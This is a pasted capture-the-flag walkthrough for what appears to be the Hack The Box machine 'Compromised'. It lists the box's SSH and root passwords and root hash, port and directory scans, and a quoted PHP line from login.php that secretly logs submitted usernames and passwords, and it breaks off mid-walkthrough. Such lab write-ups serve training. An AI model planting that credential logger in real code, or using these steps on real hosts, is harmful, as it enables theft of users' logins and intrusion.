 # Compromised - Pastebin.com

Pastebin.com is the number one paste tool since 2002. Pastebin is a website where you can store text online for a set period of time.

 At first very simple method:
  
 ssh sysadmin@10.10.10.207 with password = 3\*NLJE32I$Fe
  
 su root with password = zlke~U3Env82m2-
  
 \*\*\*\*\*\*\*\* ROOT HASH TO DECRYPT WRITEUPS: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
  
 root:$6$lAY5.6eu$m26Pk/KZfbG/KIxgQwSM2W.PuARZt9Qrs2HLNylIuLVIlKe0nyoa2tDk3Kb98JFJDzxfSU0oOoBdGrFhMzOgU0:18394:0:99999:7:::
  
 \===========================================================================================================================
  
 NMAP RESULT:
  
 22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  
 80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
  
 \=======================================================
  
 DIRECTORY SEARCHING RESULT:
	  
	 /.hta (Status: 403)
	  
	 /.htaccess (Status: 403)
	  
	 /.htpasswd (Status: 403)
	  
	 /.ssh (Status: 301)
	  
	 /backup (Status: 301) <-it's interesting
	  
	 /index.php (Status: 302)
	  
	 /server-status (Status: 403)
	  
	 /shop (Status: 301)
	  
 ++++++++++++++++++++++++++++++++++++++
  
 In browser: http://10.10.10.207/backup and download file a.tar.gz
  

	 tar -xvf a.tar.gz
	  
	 find . -printf "%T@ %Tc %p\\n" | sort -n <-to look last modify files
	  
	 In file "./admin/login.php" there is string:
	  
	 //file\_put\_contents("./.log2301c9430d8593ae.txt", "User: " . $\_POST\['username'\] . " Passwd: " . $\_POST\['password'\]);
	  

 Then:
	  